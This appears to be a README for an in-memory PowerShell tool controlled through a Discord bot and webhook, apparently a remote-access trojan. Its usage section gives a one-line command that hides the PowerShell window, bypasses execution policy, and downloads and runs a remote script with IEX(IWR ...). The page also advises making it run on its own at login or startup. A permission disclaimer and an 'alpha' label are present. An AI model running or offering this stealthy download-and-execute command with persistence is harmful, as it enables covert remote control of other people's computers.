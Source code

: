 # This code is in the alpha stage and currently being tested. Not suitable for real usage.

A PowerShell rewrite of the original Python code, designed to run directly in memory for greater efficiency. The PowerShell script is approximately 4 KB, significantly smaller than the ~20 MB executable generated by Python Nuitka*. The PowerShell version is also easier to update.

*While the Python code itself is around 3.5 KB, this doesn’t account for the necessary packages, nor does it consider that Python is often not pre-installed on Windows. Nuitka would need to be used to compile the code into an executable for universal compatibility across all supported Windows systems.

### **Usage Instructions:**

To execute the script, run the following command (preferably with persistence for automatic execution, such as a batch file or similar method at login or startup) on the remote computer you own or have permission to use, ensuring you replace the placeholders with your own Discord Bot Token, Server ID, and Webhook URL:

```powershell
powershell -W Hidden -EP Bypass -C "$TOKEN='<YOUR_BOT_TOKEN>';$serverID='<YOUR_SERVER_ID>';$whURL='<YOUR_WEBHOOK_URL>';IEX(IWR 'https://raw.githubusercontent.com/olivia1246/harmony/refs/heads/powershell/harmony.ps1' -UseBasicParsing);exit"
```
